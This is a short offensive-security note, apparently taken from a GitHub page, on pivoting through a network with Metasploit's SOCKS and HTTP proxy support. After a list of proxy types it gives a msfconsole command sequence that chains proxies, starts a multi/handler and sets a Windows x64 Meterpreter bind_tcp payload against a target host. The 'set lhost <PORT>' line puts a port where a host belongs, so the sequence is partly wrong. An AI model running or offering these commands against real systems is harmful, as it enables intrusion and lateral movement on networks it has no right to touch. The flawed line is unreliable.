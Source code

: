 # Metasploit

Metasploit has a module to use SOCKS Proxies to laterally hop the network. These are the type of proxies are available:

1. SOCKS4
2. SOCKS4A
3. SOCKS5
4. HTTP
5. HTTPS

```
msf > setg Proxies socks4a:<remote_IP>:<port>,http:<remote_IP>:<port>

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp

msf exploit(multi/handler) > set lhost <PORT>

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > exploit
```